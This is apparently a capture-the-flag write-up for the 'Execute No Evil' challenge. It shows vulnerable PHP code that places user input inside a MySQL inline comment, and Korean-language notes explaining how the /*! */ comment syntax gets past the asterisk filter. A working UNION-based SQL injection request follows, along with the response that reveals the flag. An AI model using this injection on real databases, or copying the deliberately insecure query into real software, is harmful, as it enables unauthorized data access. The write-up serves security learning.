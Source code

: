 # Execute No Evil
> ## Overview
(1) New Message: "Hey dude. So we have this database system at work and I just found an SQL injection point. I quickly fixed it by commenting out all the user input in the query. Don't worry, I made the query so that it responds with boss's profile, since he is kind of the only person actively using this database system, and he always looks up his own name, lol. Anyway, guess we'll go with this til' the sysadmin comes and fixes the issue."

Huh, so hear no evil, see no evil, ... execute no evil?
```php
<?php
include ("config.php");
$conn = new mysqli ($servername, $username, $password, $dbname);

if (isset ($_GET['name'])) {
    $name = $_GET['name'];
    $name = str_replace ("*", "", $name);
    $records = mysqli_query ($conn, "SELECT * FROM users WHERE name=/*" . $name . "*/ 'Geronimo'", MYSQLI_USE_RESULT); // Don't tell boss

    if ($records === false) {
        die ("<p>Our servers have run into a query error. Please try again later.</p>");
    }

    echo '<table>';
    echo '
    <tr>
        <th>Name</th>
        <th>Description</th>
    </tr>';

    while ($row = mysqli_fetch_array ($records, MYSQLI_ASSOC)) {
        echo '<tr>
            <td>',$row["name"],'</td>
            <td>',$row["description"],'</td>
        </tr>';
    }

    echo '</table>';
}
?>
```

> ## Solve
우리가 입력하는 $name 값은 in-line comment로 주석처리가 된다.  
때문에 str_replace를 우회해서 * 를 입력할 수 있거나 다른 방법을 시도해봐야 했다.  
먼저 str_replace를 우회하기 위해서 여러가지 방법을 시도해봤지만 잘안되었다.  
mysql 주석에 대하여 찾아보다가 다음과 같은 구문을 보았다.  
```
/*! MySQL-specific code */
```
[https://dev.mysql.com/doc/refman/8.0/en/comments.html](https://dev.mysql.com/doc/refman/8.0/en/comments.html)  
해당 문서에서 설명하기를 in-line 주석안에 !를 사용함으로써 안에서 특정 구문을 실행시킬 수 있다고 나와있다.  
이를 통해 union 구문을 실행하여 information_schema를 통해 flag 테이블의 flag값을 가져올 수 있다.  
> Request
```
/?name=! 'heogi' union select 1,whatsthis,3 from flag union select 4,5,6 from users where name=
```
> Response
```html
<head>
	<link rel="stylesheet" type="text/css" href="style.css">
</head>
<body>
<form class="center">
	<h2>Cobalt Inc. employee database search</h2>
	<label>Name:</label>
	<input type="text" name="name" autocomplete="off">
	<input type="submit" value="Search">
</form>
<br>
<!-- ?source=1 -->

<table>
	<tr>
		<th>Name</th>
		<th>Description</th>
	</tr><tr>
			<td>X-MAS{What?__But_1_Th0ught_Comments_dont_3x3cvt3:(}</td>
			<td>3</td>
		</tr><tr>
			<td>5</td>
			<td>6</td>
		</tr></table>
</body>
```
